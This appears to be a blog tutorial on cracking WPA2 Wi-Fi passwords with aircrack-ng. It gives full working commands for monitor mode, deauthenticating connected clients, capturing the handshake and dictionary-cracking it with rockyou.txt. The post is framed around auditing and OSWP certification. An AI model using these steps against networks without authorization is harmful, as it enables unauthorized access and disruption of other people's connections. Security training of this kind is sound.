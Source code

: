 ```yaml
---
layout: post
title:  "Hacking Wifi (cracking Handshake)"
author: erik
categories: [ Wifi ]
image: https://user-images.githubusercontent.com/47476901/132572928-786e2463-ba7a-460d-8195-6fab060b7f78.png
beforetoc: ""
toc: false
tags: [ Wifi ]
---
```

Cracking the Handshake

# Table of Contents
1. [Interface Configuration](#interfaces)
2. [Stop the Processes](#detenerprocesos)
3. [Monitor mode](#monitormode)
4. [Nearby Wifi networks](#wificonnections)
5. [View clients connected to the network](#clients)
6. [Deauthentication Directed](#deautenticacion)
7. [Password cracking](#descifrarpassword)
8. [Adapters for wifi auditing](#adaptadores)

---

### 1- Ifconfig (Interface Configuration) <a name="interfaces"></a>
![ifconfig](https://user-images.githubusercontent.com/47476901/132572799-6168d979-07c5-4dee-a167-24d62fc5abe2.png)
- **eth0**: Ethernet Interface
- **l0**: Loopback Interface
- **wlan0**: Wireless network interface.

### 2- Stop the active processes in use: <a name="detenerprocesos"></a>

```md
airmon-ng check kill
```
![airmonkill](https://user-images.githubusercontent.com/47476901/132572813-42ed54c0-cbe9-44b8-b2f4-194dcc86afbe.png)

### 3- Start monitor mode on wlan0. <a name="monitormode"></a>

```md
airmon-ng start wlan
```
![startwlan0](https://user-images.githubusercontent.com/47476901/132572832-a7c85f74-df34-4842-b17e-44f802ba4acd.png)

### 4- See all the wifi networks near you. <a name="wificonnections"></a>

```md
airodump-ng wlan0
```
With the command airodump-ng wlan0 we can visualize all the packets that are traveling in real time.

![airodump](https://user-images.githubusercontent.com/47476901/132572839-f43de30b-ddd4-4aca-a65d-280ce3b9bac6.png)

Identify the target:

![objetive](https://user-images.githubusercontent.com/47476901/132572844-402edfa2-89d2-425d-9f13-045547856723.png)

### 5- View the clients connected to the target network. <a name="clients"></a>

We would start using airodump-ng and filter as we wish.
We can see that there is a client connected.

![clients](https://user-images.githubusercontent.com/47476901/132572850-0a106579-fc25-4e5d-90af-4845caa6a5ea.png)

```md
airodump-ng --bssid 66:FB:F4:F6:38:9A wlan0 -w captura -c 1
```
- **-- bssid**: The bssid is "66:FB:F4:F6:38:9A" 
- **wlan0**: My monitored network card is wlan0
- **-w captura**: This will be the file in which the data will be written.
-  **-c 1**: It is in channel 1 as shown in this way"-c 1"  





### 6- Deauthentication Directed. <a name="deautenticacion"></a>
Disconnect clients connected to the network.
When the client tries to reconnect to the network we can start cracking the password as we will have the necessary package.

![disconnect_clients](https://user-images.githubusercontent.com/47476901/132572858-40057c38-7ab7-4e77-b3b9-d1a51c369871.png)

```md
aireplay-ng -0 10 -a 66:FB:F4:F6:38:9A wlan0
```

- **-0**: For deauthentication
- **10**: Number of deauthentication packages to be sent
- **-a**: The BSSID of the destination network.
- **wlan0**: Interface name



### 7- Password cracking <a name="descifrarpassword"></a>

![decrypt](https://user-images.githubusercontent.com/47476901/132572876-088d3181-09dc-447b-8213-749d148ad800.gif)

```md
aircrack-ng -a2 -b  66:FB:F4:F6:38:9A -w /usr/share/wordlists/rockyou.txt captura-01.cap
```

- **-a**: -a2 for WPA2 and -a for WPA.
- **-b**: the BSSID of the destination network.
- **-w /usr/share/wordlists/rockyou.txt**: is the dictionary of the passwords we will use.
- **captura-01.cap**: is the file we need since it is where all the packets we have intercepted are located.

Finally we get the password:

![password](https://user-images.githubusercontent.com/47476901/132588909-138e4344-51cc-4172-827f-98a569313782.png)

## Adapters for wifi audits <a name="adaptadores"></a>
I recommend the Alpha Network adapters, they are of very good quality and are focused for this type of use.
I have used the AWUS036ACH it works perfectly and has plenty of power. 100% recommended for certification.
<a href="https://www.offensive-security.com/wifu-oswp/" target="_blank">OSWP</a>

![adapter](https://user-images.githubusercontent.com/47476901/150223892-27e6ec82-079c-4dfc-b0dc-ee534b67ee37.png)


Link to the official website where you can purchase these adapters.
- <a href="https://alfa-network.eu/wi-fi/wi-fi-adapters?product_list_order=price&product_list_dir=desc" target="_blank">Alpha Network</a>

If you have any problems installing the drivers you can see the following post where he explains how to solve the most common problems when installing the drivers.
- <a href="https://b3nj1-1.github.io/blog/wifi/2022/01/17/WIFI/" target="_blank">Install Drivers Solution</a>
